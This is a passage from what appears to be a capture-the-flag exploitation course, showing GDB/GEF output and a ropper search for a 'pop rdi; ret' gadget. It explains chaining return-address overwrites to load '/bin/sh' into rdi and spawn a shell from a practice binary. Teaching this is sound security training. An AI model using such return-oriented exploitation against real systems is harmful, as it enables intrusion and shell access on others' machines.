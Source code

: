 ```sh
0x00007fffffffdfe0│+0x0020: 0x0000555555555145  →  <main+0> push rbp
0x00007fffffffdfe8│+0x0028: 0x00007ffff7e157cf  →  <init_cacheinfo+287> mov rbp, rax
0x00007fffffffdff0│+0x0030: 0x0000000000000000
0x00007fffffffdff8│+0x0038: 0x104fda818a7b57cd
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555140 <frame_dummy+0>  jmp    0x5555555550c0 <register_tm_clones>
   0x555555555145 <main+0>         push   rbp
   0x555555555146 <main+1>         mov    rbp, rsp
 → 0x555555555149 <main+4>         sub    rsp, 0x20
   0x55555555514d <main+8>         lea    rdi, [rip+0xeb8]        # 0x55555555600c
   0x555555555154 <main+15>        call   0x555555555030 <system@plt>
   0x555555555159 <main+20>        mov    rdx, QWORD PTR [rip+0x2ee0]        # 0x555555558040 <stdin@@GLIBC_2.2.5>
   0x555555555160 <main+27>        lea    rax, [rbp-0x20]
   0x555555555164 <main+31>        mov    esi, 0x64
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x555555555149 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555149 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  ropper --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
0x00005555555551db: pop rdi; ret;

gef➤
```

There is a `pop rdi` instruction at `0x00005555555551db`, which means that if we replace the return address with `0x00005555555551db`, it will execute the `pop rdi` instruction. We can insert the address of "/bin/sh" on the stack right after the return address, and the `pop rdi` instruction should pop that value off of the stack and into `rdi`.

There is a `ret` instruction that occurs right after the `pop rdi` instruction in the ROP gadget. The `ret` instruction will set `rip` equal to the next value on the stack, meaning that we can execute another line of code by setting the next value on the stack to be another ROP gadget. In other words, we can overwrite the return address twice.

To figure out the address of "/bin/sh", we can use the `find` command in GDB. The `info proc map` command can help us view the memory addresses that we'll search through.

```sh
gef➤  info proc map
process 3074
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555555000     0x1000        0x0 /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
      0x555555555000     0x555555556000     0x1000     0x1000 /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
      0x555555556000     0x555555557000     0x1000     0x2000 /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
      0x555555557000     0x555555558000     0x1000     0x2000 /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
      0x555555558000     0x555555559000     0x1000     0x3000 /home/nihaal/Desktop/ctf-courses/Pwn/PWN 302/rop
```